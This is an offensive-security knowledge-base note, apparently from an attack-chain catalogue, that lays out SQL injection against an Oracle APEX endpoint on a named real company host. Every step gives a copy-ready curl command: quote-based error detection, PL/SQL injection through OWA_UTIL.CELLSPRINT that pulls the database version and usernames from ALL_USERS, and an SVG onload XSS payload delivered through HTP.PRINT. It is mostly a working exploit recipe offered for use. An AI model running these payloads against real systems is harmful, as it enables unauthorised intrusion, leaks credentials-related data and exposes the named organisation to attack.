

---
tags:
  - sqli
  - oracle-apex
  - xss
  - data-exfiltration
  - plsql-injection
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Oracle Database
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/SQL-Injection-Detection-via-Error-Based-Testing]]'
  - '[[procedures/Extract-Database-Version-via-SQL-Injection]]'
  - '[[procedures/Execute-XSS-via-SQL-Injection-in-Oracle-APEX]]'
  - '[[procedures/Extract-Usernames-via-SQL-Injection]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Data from Local System]]'
updated_at: '2025-12-14T03:46:25.765Z'
description: >-
  A multi-stage attack exploiting SQL injection in an Oracle APEX web
  application to detect the vulnerability, extract database information, execute
  XSS, and leak usernames.
id: 939643f5-def1-46cc-9f61-2e9192114752
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
  - '[[Data from Local System]]'
---
# SQL Injection in Oracle APEX Leading to Database Exfiltration and XSS

Multi-stage attack chain demonstrating the exploitation of a SQL injection vulnerability in the Oracle APEX web application at ipm.informatica.com, allowing error-based detection, database version extraction, XSS execution, and username enumeration from system views.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web application using Oracle APEX on Oracle Database 11g
- Accessible HTTP endpoint: http://ipm.informatica.com/pls/apex/f
- No authentication required for initial testing

### Initial Access Requirements

- Direct network access to the target web application
- No prior credentials needed
- Proxy tool like Burp Suite for request interception

## Detailed Attack Procedures

### Step 1: SQL Injection Detection
procedure: [[procedures/SQL-Injection-Detection-via-Error-Based-Testing]]

**Objective**: Identify injectable parameters in the /pls/apex/f endpoint by observing error responses to malformed inputs.

**Instructions**: Intercept requests using [[tools/Burp-Suite]] and modify the query parameter with single quotes to trigger SQL errors. Send two test requests:

First, use [[commands/sqli-detection-single-quote]]:

```bash
curl "http://ipm.informatica.com/pls/apex/f?1'=1" -v
```

Then, follow up with [[commands/sqli-detection-double-quote]]:

```bash
curl "http://ipm.informatica.com/pls/apex/f?1''=1" -v
```

**Expected Output**: 500 Internal Server Error for the first request and 404 Not Found for the second, confirming injection point.

**Success Indicators**:
- Different HTTP status codes (500 vs 404)
- Database error messages in response body

### Step 2: Extract Database Version
procedure: [[procedures/Extract-Database-Version-via-SQL-Injection]]

**Objective**: Exploit the SQLi to execute PL/SQL and retrieve the Oracle database version from v$version.

**Instructions**: Craft a payload using OWA_UTIL.CELLSPRINT to print the query result. Use [[commands/extract-db-version-payload]] via Burp Suite or curl:

```bash
curl "http://ipm.informatica.com/pls/apex/f?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+banner+FROM+v$version" -d ":1=SELECT banner FROM v$version" -v
```

**Expected Output**: Database banner such as "Oracle Database 11g Release 11.2.0.3.0 - 64bit Production".

**Success Indicators**:
- Version information leaked in response
- No syntax errors in PL/SQL execution

### Step 3: Execute XSS via SQL Injection
procedure: [[procedures/Execute-XSS-via-SQL-Injection-in-Oracle-APEX]]

**Objective**: Chain SQLi with HTP.PRINT to inject and execute JavaScript in the browser context, demonstrating cross-site scripting.

**Instructions**: Inject a PL/SQL payload that outputs an unsanitized SVG onload script. Execute [[commands/xss-via-sqli-payload]]:

```bash
curl "http://ipm.informatica.com/pls/apex/f?);HTP.PRINT(:1);--=positive) <svg/onload=prompt('XSS\u0020via\u0020sql\u0020injection')>" -d ":1=positive) <svg/onload=prompt('XSS via sql injection')>" -v
```

**Expected Output**: JavaScript prompt dialog executing in the browser.

**Success Indicators**:
- Alert or prompt box appears
- Malicious script reflected without sanitization

### Step 4: Extract Usernames
procedure: [[procedures/Extract-Usernames-via-SQL-Injection]]

**Objective**: Use SQLi to query and exfiltrate usernames from the ALL_USERS system view.

**Instructions**: Similar to version extraction, use OWA_UTIL.CELLSPRINT for the username query with [[commands/extract-usernames-payload]]:

```bash
curl "http://ipm.informatica.com/pls/apex/f?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS" -d ":1=SELECT USERNAME FROM ALL_USERS" -v
```

**Expected Output**: List of database usernames from ALL_USERS.

**Success Indicators**:
- Usernames printed in response
- Potential for further enumeration of sensitive data

## Attack Chain Summary

### Key Achievements

1. Confirmed SQL injection in Oracle APEX endpoint
2. Extracted database version and usernames for reconnaissance
3. Demonstrated XSS execution for client-side attacks
4. Enabled arbitrary PL/SQL execution leading to data leakage

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]
- [[Data from Local System]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
